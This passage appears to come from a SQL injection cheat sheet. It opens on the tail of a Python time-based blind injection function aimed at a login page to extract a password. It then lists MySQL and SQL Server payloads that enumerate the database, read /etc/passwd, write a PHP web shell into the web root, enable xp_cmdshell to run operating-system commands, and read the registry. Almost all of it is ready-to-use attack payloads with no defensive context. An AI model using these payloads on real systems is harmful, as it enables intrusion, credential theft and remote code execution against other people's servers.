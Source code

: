 ```python
                print(f"Extracted so far: {extracted_data}")
                position += 1
                found_char = True
                break
        
        if not found_char:
            print(f"Extraction complete: {extracted_data}")
            break
    
    return extracted_data

# Usage
# extracted_password = time_based_sqli("http://target.com/login.php", "id")
```

---

## Database-Specific Injection Techniques

### MySQL-Specific Techniques
```sql
-- Information gathering
' UNION SELECT @@version, @@datadir--
' UNION SELECT user(), database()--

-- File operations
' UNION SELECT LOAD_FILE('/etc/passwd'), null--
' UNION SELECT 'shell code', null INTO OUTFILE '/var/www/html/shell.php'--

-- Privilege escalation
' UNION SELECT grantee, privilege_type FROM information_schema.user_privileges--

-- Error-based extraction
' AND (SELECT 1 FROM (SELECT COUNT(*),CONCAT(version(),FLOOR(RAND(0)*2))x FROM information_schema.tables GROUP BY x)a)--
```

### SQL Server-Specific Techniques
```sql
-- Information gathering
' UNION SELECT @@version, db_name()--
' UNION SELECT system_user, is_srvrolemember('sysadmin')--

-- File operations
' UNION SELECT BulkColumn FROM OPENROWSET(BULK 'C:\Windows\System32\drivers\etc\hosts', SINGLE_CLOB) AS x--

-- Command execution
'; EXEC xp_cmdshell 'whoami'--
'; EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE--

-- Registry access
'; EXEC xp_regread 'HKEY_LOCAL_MACHINE', 'SOFTWARE\Microsoft\Windows NT\CurrentVersion', 'ProductName'--
```
